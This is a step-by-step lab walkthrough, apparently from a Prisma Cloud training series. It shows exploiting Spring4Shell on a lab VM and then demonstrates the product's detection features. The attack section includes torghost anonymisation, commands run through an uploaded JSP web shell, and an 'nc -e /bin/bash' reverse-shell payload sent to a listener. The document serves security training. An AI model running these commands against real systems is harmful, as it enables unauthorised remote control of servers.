


# Palo Alto: Step-by-step hands-on lab for the Spring Shell RCE Attack

&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;

## Attack Scenario:

### Summary:

In this lab, we are going to setup the spring4shell vulnerable application by taking a sample from the open- source project [spring4shell-exploit-poc](https://github.com/FourCoreLabs/spring4shell-exploit-poc), and see how we can perform an attack on the application. Our goal is to take reverse shell on the application. Also, we are going to explore Prisma detection and prevention capabilities that help us to detect and prevent attacks.

## Scenario Resources

Resources below have already been set up for you as part of the lab setup.

* One Virtual Network with three subnets. 
* Two Vritual Machine Instances (Kali Instance, Ubuntu Instance).

## Scenario Starts

* Finding Spring4Shell vulnerability and upload shell by sending request to the server.

## Scenario Goals

* Take a reverse shell on the application remotely.
   
## Perform Attack Steps

1.	In order to start the attack we need to login into the Kali machine by running the below command:

   * Public Ip of Kali VM: **<inject key="KaliVMPublicIp" enableCopy="true" />**

   ```
   ssh kali@<Your Kali Machine Public IP Here>
   ```
> Note:- From your lab environment details page, as seen in the image below, you may **copy** the ssh command.
<br>

   

   **It's important to Update the server**

   ```
   sudo apt update -y
   ```
   

2.	Mostly attackers hide their IP address using the TOR network. in order to demonstrate this attack, we are going to use the script torghost.py that help us run command behind the tor network.

**You need to download script and install by using below command download**

```
git clone https://github.com/SusmithKrishnan/torghost.git
```

```
cd torghost
```

**Build the script** 

```
bash build.sh
```
   
**Install the python packages**

```
sudo pip3 install -r requirements.txt --break-system-packages
```

**Now run the script**

```
sudo python3 torghost.py -s
```
   


>**Note**:- **You have to find your application server IP, also known as your target IP, which can be found on the lab environment details page and is your Ubuntu machine public IP.**



3.	In order to exploit and upload the shell, run the below command and provide target IP with your spring4shell vulnerable application target IP.

```
bash /tmp/exploit.sh
```
**You can copy the spring4shell vulnerable application target IP as given below and provide as input after above exploit.sh script ran successfully."**

* vulnerable application target IP: **<inject key="UbuntuVMPublicIp" enableCopy="true" />**
  


4.	We are going to run below command to check our shell is working.
   
**You can copy the Target IP as given below and provide it in the following curl command."**

* Target IP: **<inject key="KaliVMPublicIp" enableCopy="true" />**
   
```
curl --output - http://<TARGET IP>/shell.jsp?cmd=id
```


**You can copy the Target IP as given below and provide it in the following curl command."**

* Target IP: **<inject key="KaliVMPublicIp" enableCopy="true" />**
  
```
curl --output - http://<TARGET IP>/shell.jsp?cmd=whoami
```
    


5.	In order to get the reverse shell on the server we need to setup the rever shell listener on Kali machine by running the below command. Please use a separate tab to keep our session active.

```
nc -lvnp 9001
```


   
6. Send the payload using the curl command shown below
   
**You can copy the Vuln App IP Address as given below and provide it in following curl command."**

* Vuln App IP Address: **<inject key="UbuntuVMPublicIp" enableCopy="true" />**
  
```
curl --output - http://<Vuln App IP Address>/shell.jsp?cmd=nc%20-e%20/bin/bash%2010.0.2.160%209001
```


7. Notice that on Kali machine we got a reverse shell and now you can run any command on the vulnerable application server.


## How Prisma Cloud Help you Detect and Prevent this Attack
 
## 1. Vulnerability Detection

**Prisma cloud has the capability to run scans and detect vulnerability in Java application packages. So if your application is running with Spring4Shell vulnerable package it will detect immediately. Prisma Cloud supports the scanning of container registries to identify vulnerabilities in packages early in the CI/CD pipeline. Prisma Cloud detects vulnerabilities in VMs/Host and Serverless applications during the build, deployment, and runtime.**


## 2. Misconfigured / non-complained container detection

**Prisma cloud will detect misconfigured workloads and alert you. As in this attack container running as a root user and due to that attacker is able to download and install netcat.**


## 3. WaaS Prevent from Command Injection Vulnerability
 
**Prisma WAAS secures web-based applications hosted on hosts and containers from attacks such as SQL injection, Cross-site scripting (XSS), Malformed request protection, Cross-site request forgery, Clickjacking, and Shellshock exploitation. Prisma Cloud WAAS can enforce API traffic security based on definitions specified in the form of Open API files.**


## 4. Runtime Detection Capability

**As you have seen in the attack section we have run multiple exploit commands that use to execute binary and install netcat. Prisma cloud alert on unusual activity running into the system.**


**Once the attacker exploits the vulnerability, the attack will take a reverse shell on the system and Prisma cloud has the capability to detect and prevent attacks as well as capture all single activity done by the attacker.**


 
## 5. Runtime Prevention Capability

**Now we can see how Prisma Cloud has prevented the live attacks on exploited systems.**


## 6. Runtime incidents Detection

**Prisma cloud has a powerful capability of live runtime incident detection. As we can see while attacking the lab we exploited the vulnerability and uploaded a shell and took a reverse shell. Prisma cloud has detected reverse shell as shown below.**


**You can also do forensic how and what the attacker did while taking reverse shell. With these data you know how important to understand further attacks.**


## 7. Detect through Query

```
config from cloud.resource where finding.type = 'Host Vulnerability' AND protection.finding.name IN ('CVE-2022-22965')
```


 
## 8. Check Flow of Attack using Query


## ATT&CK


## Destroy Lab

* When your lab is finished, please go to the page displaying your lab environment details, scroll to the bottom left, and click the **DELETE ON DEMAND LAB button** to delete all of the resources in your lab environment.


   


